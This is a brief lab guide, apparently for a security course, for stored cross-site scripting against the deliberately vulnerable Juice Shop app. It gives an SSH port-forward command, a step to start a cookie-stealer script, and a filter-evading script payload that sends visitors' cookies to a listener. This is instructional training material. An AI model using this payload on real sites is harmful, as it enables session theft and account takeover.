 # XSS Guide

## Set up:

1. Connect to kaliVM and forward the Juice shop to your localhost:

	```ssh -i <PATH_TO_SSH_KEY> -L <ONE_PORT_OF_GIVEN_PORTS>:<KALI_VM_LOCAL_IP>:3000 <USER_NAME>@130.238.10.236```
2. Start the *3rd_party_cookie_stealer.py* program:

	```python3 3rd_party_cookie_stealer.py```
3. Post the following comment in the section *contact us*:

	```<<script> foo</script>document.write(' <img src="http://localhost:3000/cookiestealer /> ');</script>script>```	

On the terminal running *3rd_party_cookie_stealer.py* the cookies should be printed
